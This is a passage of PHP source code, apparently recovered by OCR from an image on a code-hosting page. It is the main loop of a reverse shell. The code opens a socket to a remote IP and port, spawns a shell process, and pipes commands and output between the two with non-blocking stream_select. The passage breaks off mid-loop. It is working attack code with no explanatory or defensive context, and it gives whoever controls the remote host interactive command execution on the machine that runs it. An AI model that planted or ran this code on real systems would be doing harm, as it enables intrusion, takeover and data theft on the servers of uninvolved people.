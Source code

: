 ```
// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

// Spawn shell process
$descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
    	exit(1);
    }

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    	// Check for end of TCP connection
    	if (feof($sock)) {
        		printit("ERROR: Shell connection terminated");
        		break;
        	}
    
	// Check for end of STDOUT
    	if (feof($pipes[1])) {
        		printit("ERROR: Shell process terminated");
        		break;
        	}
    
	// Wait until a command is end down $sock, or some
    	// command output is available on STDOUT or STDERR
    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
	// If we can read from the TCP socket, send
    	// data to process's STDIN
    	if (in_array($sock, $read_a)) {
        		if ($debug) printit("SOCK READ");
        		$input = fread($sock, $chunk_size);
```